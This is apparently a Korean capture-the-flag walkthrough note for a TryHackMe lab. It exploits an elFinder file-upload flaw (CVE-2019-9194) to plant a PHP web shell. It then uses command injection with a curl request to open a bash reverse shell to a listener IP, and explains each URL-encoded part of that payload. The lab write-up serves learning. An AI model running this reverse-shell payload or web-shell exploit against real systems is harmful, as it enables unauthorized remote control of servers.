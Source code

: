# https://velog.io/@agnusdei1207/46481-CVE-2019-9194

# 진짜 jpg 로 바꾸고 실행하니 에러 -> 하지만 경로에 접근해보니 SecSignal.php 파일이 생성되어 있음

http://files.lookup.thm/elFinder/php

# cmd injection

http://files.lookup.thm/elFinder/php?c=ls

# 접속 URL:

```bash
# me
sudo apt install netcat-traditional
nc -lvnp 4444

# fail
curl http://files.lookup.thm/elFinder/php/SecSignal.php?c=/bin/sh -i >& /dev/tcp/10.8.136.212/4444 0>&1

# success
# bash
curl http://files.lookup.thm/elFinder/php/SecSignal.php?c=/bin/bash+-c+%22bash+-i+%3E%26+/dev/tcp/10.8.136.212/4444+0%3E%261%22

# URL 인코딩: /bin/bash+-c+
# 디코딩: /bin/bash -c
# 설명: bash로 명령을 실행하되, -c 옵션을 줘서 문자열 형태의 명령어를 실행하겠다는 의미
# URL 인코딩: %22
# 디코딩: "
# 설명: 큰따옴표로 명령어 문자열을 감싸기 위한 것. bash -c 뒤에 실행할 전체 명령을 묶기 위해 사용됨
# URL 인코딩: bash+-i+
# 디코딩: bash -i
# 설명: bash를 인터랙티브 모드로 실행. 대화형 셸을 열기 위한 핵심 옵션
# URL 인코딩: %3E%26
# 디코딩: >&
# 설명: 표준 출력(stdout)을 리디렉션해서 다른 곳으로 보냄. 여기선 TCP 연결로 출력 보내는 것
# URL 인코딩: +/dev/tcp/10.8.136.212/4444+
# 디코딩: /dev/tcp/10.8.136.212/4444
# 설명: bash에서 지원하는 특수 파일 경로. 여기에 연결하면 TCP 연결이 생김 (공격자 리스너와 연결됨)
# URL 인코딩: 0%3E%261
# 디코딩: 0>&1
# 설명: 표준 입력(stdin)을 표준 출력(stdout)으로 리디렉션. 이렇게 하면 입력도 공격자 쪽으로 전달됨
# URL 인코딩: %22
# 디코딩: "
# 설명: 명령어 문자열 끝을 닫는 큰따옴표. bash -c 명령어를 완성함
```
